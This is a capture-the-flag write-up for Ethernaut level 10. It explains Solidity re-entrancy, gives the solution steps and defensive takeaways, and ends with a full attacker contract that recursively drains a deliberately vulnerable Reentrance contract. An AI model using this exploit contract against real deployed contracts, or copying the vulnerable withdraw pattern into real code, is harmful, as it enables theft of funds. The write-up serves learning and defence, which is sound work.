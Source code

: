# Level 10 : Re-Entrancy

**Ethernaut level 10 : Re-entrancy**

What is re-entrancy : Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.

Number One of the [dasp.co](https://dasp.co/)

![Untitled](Level%2010%20Re-Entrancy%202a5ed0826f644b5ca5ccb61b1d6f3312/Untitled.png)

In the example above, Contract B is a malicious contract which recursively calls A.withdraw() to deplete Contract A’s funds. **Note that the fund extraction successfully finishes before Contract A returns from its recursive loop, and even realizes that B has extracted way above its own balance.**

The dangerous line for this level is the `msg.sender.call`*.* This will send money to some sender, which can be anyone or anything like a malicious contract.

1. The way here is to create a contract that give to re-entrance.sol, and then recursively withdraw from it until re-entrance is 0.
2. Several functions need to be created : 
    1. `contructor()` payable so that we can send Ether to our contract while deployment.
    2. `donate()` to send 0.01 ether to the Ethernaut contract
    3. `withdraw()` to trigger withdraw from Ethernaut contract
    4. `getBalance()` just to query the balance of either Ethernaut contract or our contract
    5. `fundMeBack()` to withdraw from Ethernaut contract once the level is finished
    6. `receive()` the loop that makes the magic happens. This is the important one function
3. Deploy the contract,use getBalance() to check the amount of Ethernaut contract
4. Deposit fund and then use the withdraw() function of our contract that will trigger the reentracy and the Ethernaut contract to transfer 0.001 ether to us back.
5. Submit instance 😃

# **Key Security Takeaways**

- The order of execution really matters in Solidity. If you must make external function calls, make the last thing you do (after all requisite checks and balances)
- Include a **mutex** to prevent re-entrancy, e.g. use a boolean `lock` variable to signal execution depth.
- Use `transfer` to move funds out of your contract, since it `throws`and limits gas forwarded. Low level functions like `call` and `send` just return false but don't interrupt the execution flow when the receiving contract fails.” — from Ethernaut level
- For more , have a look on this famous hack : [http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Reenter{
    address payable addr_ = payable(address(// Ethernaut Contract Address));
    Reentrance level10 = Reentrance(addr_);
    constructor () public payable {}

    function donate(address _to) external payable {
        level10.donate{value: 0.001 ether}(_to);
    }
    function withdraw() external{
        level10.withdraw(0.001 ether);
    }
    function getBalance(address _who) external view returns (uint){
        return address(_who).balance;
    }
    function fundmeback(address payable _to) external payable{
        require(_to.send(address(this).balance), "could not send Ether");
    }
    receive() external payable {
        level10.withdraw(msg.value);
    }
}

contract Reentrance {
    using SafeMath for uint256;
    mapping(address => uint) public balances;
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }
    function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
        }
    }
    receive() external payable {}
}
```
